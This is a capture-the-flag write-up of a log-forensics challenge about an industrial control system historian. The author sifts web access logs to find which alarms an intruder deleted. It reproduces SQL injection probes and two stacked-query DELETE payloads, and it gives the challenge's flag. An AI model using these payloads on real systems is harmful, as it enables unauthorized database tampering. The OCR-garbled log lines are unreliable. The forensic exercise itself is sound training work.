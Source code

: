 # The Historian Channel - 3
> The downloaded configuration file contained database schemas as well as information regarding the various alarms in Jubilife’s ICS network. It also contained hardcoded passwords, which could explain how the unauthorized user was eventually able to login successfully.

> There is no evidence that this configuration file has been changed in any way, which means the user must have found a different way to modify the alarm logging. However, the configuration file was probably used as part of their information gathering process.

> Looking deeper into the suspicious user’s activities, what are the names of the two alarms they deleted from the database?

> Flag format: alarm names in ASCII, comma separated (order does not matter). Example: if alarms with names ABCD and EFGH were deleted from database, accepted flags would be ABCD,EFGH or EFGH,ABCD.

## About the Challenge
We were given a log file to analyze (You can download the file [here](access.log)). And we need to find the names of the 2 alarams that the users deleted from the database

## How to Solve?
As you can see in the log file, there are a lot of requests that contains SQL query


[Image extracted text: 46
[04/May/2023:13:04:55
0500] "GET /alarms.php/ ?deviceID-1%20AND%20335123033518Submit-Submit HTTP/1.1" 500 336 "http:l [
46
[04/May/2023:13:04:55
0500] "GET /alarms.php/ ?deviceID-1%20AND?2032212309412--%2Oxbcx&Submit-Submit HTTP/1.1"
500 995
46
[04/May/2023:13:04:55
0500] "GET /alarms.php/ ?deviceID-1%20AND%2033512303351
-%20jmcx&Submit-Submit HTTP/1.1"
500 535
46
[04/May/2023:13:04:55
0500] "GET /alarms.php/ ?deviceID-122722922OAND%2067532302200%20AND220228227GhKm227%30%27GhKm&Sul
46
[04/May/2023:13:04:55
0500]
"GET [alarms.php/ deviceID-1227829%2OAND%2033512303351%2OAND%20%28227eecB%27%3D%27eecB&Sul
46
[04/May/2023:13:04:55
0500]
"GET [alarms.php/ deviceID-122782OAND%2041562305452%20AND?20%27VBNn?2723022ZVBNn& Submit-SL
46
[04/May/2023:13:04:55
0500]
'GET /alarms.php/ ?deviceID-1227%2OAND%2033512303351220AND?20227THRD?27%30%27THRD&Submit-SL
46
[04/May/2023:13:04:55
0500]
"GET /alarms.php/ ?deviceID-1227%20AND%2066032302942%20AND%20%27NSbh?27%30%27NSbh&Submit-SL
46
[04/May/2023:13:04:55
0500]
"GET  /alarms.php/ ?deviceID-%28SELECT?2O%28CASEZZOWHEN?20%2832682309651229220THEN?201%20EL
46
[04/May/2023:13:04:55
0500]
"GET  /alarms.php/ ?deviceID-%28SELECT?2O%28CASEZZOWHEN?20%2811942301194%29220THEN?201%20EL
46
[04/May/2023:13:04:55
0500]
"GET /alarms. php]
deviceID-1229%20ANDIZOEXTRACTVALUE?28823222CCONCAT2280x5c22C0x71707a6a7
46
[04/May/2023:13:04:55
0500]
'GET  /alarms.php/ ?deviceID-1%2OANDIZOEXTRACTVALUE%288232%2CCONCAT2280x5c22C0x71707a6a71%2C
46
[04/May/2023:13:04:55
0500]
"GET [alarms.php/ ?deviceID-1%2OANDIZOEXTRACTVALUER28823222CCONCAT?280x5c22COx71707a6a71%2C
46
[04/May/2023:13:04:55
0500]
"GET /alarms.php/ ?deviceID-1%27229%20AND%2OEXTRACTVALUE%28823222CCONCAT%280x5c%2C0x71707a€
46
[04/May/2023:13:04:55
0500]
"GET [alarms.php/ ?deviceID-122722OANDRZOEXTRACTVALUE%28823222CCONCAT?280x5c22C0x71707a6a7
46
[04/May/2023:13:04:55
0500]
"GET /alarms.php/ ?deviceID-1%29720AND%205884%3DCAST%28%28CHR%2811322927027CCHR%28112229%7
46
[04/May/2023:13:04:55
0500] "GET /alarms.php/ ?deviceID-1%20AND?205884%3DCAST228228CHR%28113229%70%7CCHR%2811222927027
46
[04/May/2023:13:04:55
0500] "GET /alarms.php/ ?deviceID-1%2OAND%205884%3DCAST%28228CHR228113229270%7CCHR%28112229%70275
46
[04/May/2023:13:04:55
0500] "GET /alarms.php/ ?deviceID-1227229%2OAND%205884%3DCAST228228CHR%28113229270%7CCHR%28112229
46
[04/May/2023:13:04:55
0500] "GET /alarms.php/ ?deviceID-1227%20AND%205884%3DCAST?28228CHR%2811322927C27CCHR%2811222927
46
[04/May/2023:13:04:55
0500]
"GET [alarms.php/ ?deviceID-122972OAND%203467220IN20%28SELECT220%28CHAR%2811322922BCHAR%2S
46
[04/May/2023:13:04:55
0500]
"GET [alarms.php/ deviceID-1%2OAND%203467220IN%20228SELECT?2O%28CHAR%28113229%2BCHAR%28113
46
[04/May/2023:13:04:55
0500]
"GET [alarms.php/ ?deviceID-1%2OAND?203467%20IN?20228SELECT?2OR28CHAR%28113229%2BCHAR%28113
46
[04/May/2023:13:04:55
0500]
"GET /alarms.php/ ?deviceID-1%27229720AND%203467%20IN%20228SELECT%20%28CHAR%28113729%2BCHAF
46
[04/May/2023:13:04:55
0500] "GET /alarms.php/ ?deviceID-1227%2OAND%203467220IN22O%28SELECTR20%28CHAR%28113229%2BCHAR%2E
46
[04/May/2023:13:04:55
0500] "GET /alarms.php/ ?deviceID-1229720AND%20378823D228SELECT%ZOUPPER%28XMLType?28CHR?2860229%
46
[04/May/2023:13:04:55
0500] "GET /alarms.php/ ?deviceID-1%20AND%20378823D%28SELECT%ZOUPPER%Z8XMLType?28CHR%2860229270%
46
[04/May/2023:13:04:55
0500] "GET /alarms.php/ ?deviceID-1%20AND%20378873D%28SELECT%ZOUPPER%Z8XMLType?28CHR%2860729%7c%_]


To obtain the flag, we need to find `DELETE` query. And I found there are 50 requests that contains `DELETE FROM` keywords but some of them returned `500` status code.


[Image extracted text: 7%3BSELECT%zOreplace(replace(replace(replace(replace(repl
DELETEYZOFROM
Aa ab
? of 50
1  = *
7%3BDELETE"2OFROM2Oalarms"2OWHERER2OdeviceID?2O-%20CAST
47021 OZUaSizUmTCUCN)  OZUHIDIZUIallICfozU-ZUChST(^ozT4
7%3BDELETE"2OFROM%2Oalarms"2O1HERER2OdeviceID?2O-"2OCAST (%274227220as"20INTEGER ) %2OANDIZOname%20-%20CAST
X274
7%3BDELETER2OFROM2Oalarms"2ONHERE"2OdeviceID?2O-%2OCAST (%272227220as%20INTEGER) %20AND?ZOname%20-%2OCAST
X274
7%3BDELETERZOFROM2Oalarms?2OwHERE%zOdeviceID?2O-%2OCAST (%274727220a5%20INTEGER) %2OAND%2Oname%20-%2OCAST (X%274
7%3BDELETERZOFROMzOalarms%2OwHERE%zodeviceID?2o-%2OCAST (%275227220as%20INTEGER)%2OAND%zOname%20-%2OCAST
X6274
7%3BDELETERZOFROMzOalarms%2OwHERE%zodeviceID?2o-%2OCAST (%275227%220as%20INTEGER)%2OAND?zOname%20-%2OCAST (X9274
7%3BDELETERZOFROMzOalarms%2OwHERE%zodeviceID?2o-%2OCAST (%272227220as%20INTEGER)%2OAND%zOname%20-%2OCAST
X6274
7%3BDELETE"2OFROM2Oalarms"2O1HERER2OdeviceID?2O-"20CAST
62627220as%20INTEGER ) %2OAND%ZOname?20-"20CAST (X2274
7%3BDELETE"2OFROM%2Oalarms"2ONHERER2OdeviceID?2O-"%2OCAST (%272227220as"20INTEGER ) %2OANDIZOname%20-%20CAST (X2274
7%3BDELETE"2OFROM2Oalarms"2O1HERER2OdeviceID?2O-"20CAST
%274227220aS%20INTEGER ) %2OAND%ZOname?20-"20CAST (X2274
ubmit-Submit HTTP/1.1"
200 1114 "http:
(jubilifehistorian/index php"
"Mozilla/5
0 (Windows
NT 10.0; Win64;
X64
bmit-Submit HTTP/1.1"
200
1299
jubilifehistorian/alarms:php
"Mozilla/5.0 (Windows NT
10.0; Win64;
bmit-Submit HTTP/1.1"
200 1198
jubilifehistorian/alarms.php
"Mozilla/5.0 (Windows NT
10.0; Win64;
bmit-Submit HTTP/1.1"
200
1286
jubilifehistorian/alarms.php
"Mozilla/5.0 (Windows NT
10.0; Win64;
bmit-Submit HTTP/1.1"
200 1289 "http:
jubilifehistorian/alarms.php
"Mozilla/5.0 (Windows NT
10.0; Win64;
ubmit-Submit HTTP/1.1" 200 1110 "http:
jubilifehistorian/alarms.php
'Mozilla/5.0 (Windows NT
10.0; Win64;
7%3BSELECT%zoreplace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr( (substr(sq
7%3BSELECT%zoreplace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr( (substr(sq
7%3BDELETE"2OFROM2Oalarms"2O1HERER2OdeviceID?2O-"20CAST
%275227220aS%20INTEGER ) %2OAND%ZOname?20-%20CAST
X6274
7%3BDELETERZOFROMkzoalarms%2OwHERE%zodeviceID?2o-%2OCAST (%273227220as%20INTEGER )%2OAND?zOname%20-%2OCAST (X9274
7"3BDELETE"2OFROMzOalarms"2OWHERE"2OdeviceID?2O-"2OCAST
'1927220as%20INTEGER)%2OAND%zOname%20-%2OCAST
Xo274
7"3BDELETE"2OFROMzOalarms"2OWHERE"2OdeviceID?2O-"2OCAST
3227220as%20INTEGER)%2OAND%zOname%20-%2OCAST
Xo274
7"3BDELETE"2OFROMzOalarms"2OWHERE"2OdeviceID?2O-"2OCAST
62627220a5220INTEGER)%2OAND%2Oname?20-%20CAST
Xo274
7%3BDELETE"2OFROM2Oalarms"2O1HERER2OdeviceID?2O-"20CAST
5227220aS%20INTEGER ) %2OAND%ZOname?20-%20CAST
X6274
7%3BDELETE"2OFROM2Oalarms"2O1HERER2OdeviceID?2O-"20CAST
5227220aS%20INTEGER ) %2OAND%ZOname?20-%20CAST
X6274
7%3BDELETE"2OFROM2Oalarms"2OWHERER2OdeviceID?2O-%20CAST
2227820as220INTEGER ) %20AND%ZOname?20-%20CAST
X06274
7%3BDELETE"2OFROM2Oalarms"2OWHERER2OdeviceID?2O-%20CAST
%273227220as"20INTEGER ) %20ANDIZOname%20-%20CAST (X2274
7%3BDELETERZOFROMzOalarms%2OwHERE%zodeviceID?2o-%2OCAST (%272227220as%20INTEGER )%2OAND?zOname%20-%2OCAST (X9274
bmit-Submit HTTP/1.1"
200
1111
"http:
(jubilifehistorian/index-php
"Mozilla/5.0 (Windows NT
10.0; Win64;
X64
bmit-Submit HTTP/1.1"
200
1237
"http:
'jubilifehistorian/alarms.php"
"Mozilla/5.0 (Windows NT 10.0; Win64;
bmit-Submit HTTP/1.1"
200
1247
"http   jubilifehistorian/alarms php" "Mozilla/5.0 (Windows NT
10.0; Win64;
ubmit-Submit HTTP/1.1" 200 1128 "http:   jubilifehistorian/alarms.php
"Mozilla/5.0 (Windows
NT
10.0; Win64;
"http:
"http:
"http:]


I found there are 2 requests that returned `200 OK` status code

```
';DELETE FROM alarms WHERE deviceID = CAST('5' as INTEGER) AND name = CAST(X'42313237' as TEXT);--
';DELETE FROM alarms WHERE deviceID = CAST('5' as INTEGER) AND name = CAST(X'43393639' as TEXT);--
```

Decode the hex to obtain the flag and seperate the name of the alarm using comma

```
B127,C969
```